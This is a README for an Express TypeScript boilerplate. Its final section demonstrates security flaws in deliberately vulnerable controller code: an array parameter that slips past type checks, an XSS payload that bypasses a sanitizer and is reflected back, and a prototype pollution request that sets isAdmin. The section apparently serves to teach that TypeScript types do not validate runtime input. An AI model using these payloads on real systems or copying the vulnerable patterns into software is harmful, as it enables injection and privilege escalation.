 # 🚀 Express TypeScript Boilerplate 2024

[![Build](https://github.com/edwinhern/express-typescript-2024/actions/workflows/build.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/build.yml)
[![Test](https://github.com/edwinhern/express-typescript-2024/actions/workflows/test.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/test.yml)
[![Code Quality](https://github.com/edwinhern/express-typescript-2024/actions/workflows/code-quality.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/code-quality.yml)
[![Docker Image CI](https://github.com/edwinhern/express-typescript-2024/actions/workflows/docker-image.yml/badge.svg)](https://github.com/edwinhern/express-typescript-2024/actions/workflows/docker-image.yml)

``` code
Hey There! 🙌 
🤾 that ⭐️ button if you like this boilerplate. 
```

## 🌟 Introduction

Welcome to the Express TypeScript Boilerplate 2024 – a streamlined, efficient, and scalable foundation for building powerful backend services with modern tools and practices in Express.js and TypeScript.

## 💡 Motivation

This boilerplate aims to:

- ✨ Reduce setup time for new projects
- 📊 Ensure code consistency and quality
- ⚡  Facilitate rapid development
- 🛡️ Encourage best practices in security, testing, and performance

## 🚀 Features

- 📁 Modular Structure: Organized by feature for easy navigation and scalability
- 💨 Faster Execution with tsx: Rapid TypeScript execution with `tsx` and type checking with `tsc`
- 🌐 Stable Node Environment: Latest LTS Node version in `.nvmrc`
- 🔧 Simplified Environment Variables: Managed with Envalid
- 🔗 Path Aliases: Cleaner code with shortcut imports
- 🔄 Renovate Integration: Automatic updates for dependencies
- 🔒 Security: Helmet for HTTP header security and CORS setup
- 📊 Logging: Efficient logging with `pino-http`
- 🧪 Comprehensive Testing: Setup with Vitest and Supertest
- 🔑 Code Quality Assurance: Husky and lint-staged for consistent quality
- ✅ Unified Code Style: `Biomejs` for consistent coding standards
- 📃 API Response Standardization: `ServiceResponse` class for consistent API responses
- 🐳 Docker Support: Ready for containerization and deployment
- 📝 Input Validation with Zod: Strongly typed request validation using `Zod`
- 🧩 Swagger UI: Interactive API documentation generated from Zod schemas

## 🛠️ Getting Started

### Video Demo

For a visual guide, watch the [video demo](https://github.com/user-attachments/assets/b1698dac-d582-45a0-8d61-31131732b74e) to see the setup and running of the project.

### Step-by-Step Guide

#### Step 1: 🚀 Initial Setup

- Clone the repository: `git clone https://github.com/edwinhern/express-typescript-2024.git`
- Navigate: `cd express-typescript-2024`
- Install dependencies: `npm ci`

#### Step 2: ⚙️ Environment Configuration

- Create `.env`: Copy `.env.template` to `.env`
- Update `.env`: Fill in necessary environment variables

#### Step 3: 🏃‍♂️ Running the Project

- Development Mode: `npm run dev`
- Building: `npm run build`
- Production Mode: Set `.env` to `NODE_ENV="production"` then `npm run build && npm run start`

## 🤝 Feedback and Contributions

We'd love to hear your feedback and suggestions for further improvements. Feel free to contribute and join us in making backend development cleaner and faster!

🎉 Happy coding!

## 💀 Hacking TypeScript

### TypeScript Validation Fail #1

In the users controller file at `src/api/user/userController.ts` we have the following code:

```typescript
class UserController {
  public getUsers: RequestHandler = async (_req: Request, res: Response) => {
    const filterQuery: any = _req.query.filter || '';

    console.log(`req.query.filter: ${filterQuery}; typeof: ${typeof filterQuery}`);

    const serviceResponse = await userService.findAll({ filter: filterQuery });
    return handleServiceResponse(serviceResponse, res);
  };
```

Even though we are using TypeScript, we defined the filterQuery as `any` which is the obvious glaring mistake. So upon sending a request to the `/api/users` endpoint with a query parameter `filter` that may not be a string, we get the following to send a response back

```bash
curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter[]=A"| jq
```

### TypeScript Validation Fail #2

In the users controller file at `src/api/user/userController.ts` we have the following code:

```typescript
class UserController {
  public getUsers: RequestHandler = async (_req: Request, res: Response) => {
        const filterQuery: string = _req.query.filter as string || '';

    console.log(`req.query.filter: ${filterQuery}; typeof: ${typeof filterQuery}`);

    const serviceResponse = await userService.findAll({ filter: filterQuery });
    return handleServiceResponse(serviceResponse, res);
  };
```

We have now improved upon the previous code and treat the `filterQuery` as a string.

Next, run the TS compiler to ensure all types are as expected:

```bash
npx tsc
```

Let's send a request to see how the server behaves:

```bash
curl -X 'GET' -H 'accept: application/json' "http://localhost:8080/users?filter[]=A"| jq
```

Still, we get results back. Even though, supposedly we should only be accepting a string as a filter query and not arrays, per our TypeScript definitions.

### TypeScript Security Bypass #3

We send in a query parameter that is a string but contains a malicious payload but it gets sanitized correctly per our logic:

```bash
curl -G -X 'GET' -H 'accept: application/json' "http://localhost:8080/users/component" --data-urlencode "name=<img liran"

Bad input detected!
```

What happens if we update the query string so that the field is to be interpreted as an array instead of a string?

```bash
curl -G -X 'GET' -H 'accept: application/json' "http://localhost:8080/users/component" --data-urlencode "name[]=<img src=x onError=alert(1) />"           

<h1>Hello, <img src=x onError=alert(1) />!</h1>
```

### TypeScript Security Bypass #4

Let's bypass both TypeScript types and Zod schema input validation.

First off, a safe request:

```bash
curl http://localhost:8080/users/1/settings | jq
```

Let's set a setting to enabled:

```bash
curl -X POST -H 'Content-Type: application/json' http://localhost:8080/users/settings -d '{"darkmode": true}' 
```

Now let's specifically set the notifications settings

```bash
curl -X PUT -H 'Content-Type: application/json' http://localhost:8080/users/1/settings/notifications -d '{"notificationType": "email", "notificationMode": "daily", "notificationModeValue": "disabled"}'
```

Now let's abuse this with a prototype pollution payload:

```bash
curl -X PUT -H 'Content-Type: application/json' http://localhost:8080/users/1/settings/notifications -d '{"notificationType": "__proto__", "notificationMode": "isAdmin", "notificationModeValue": true}'
```
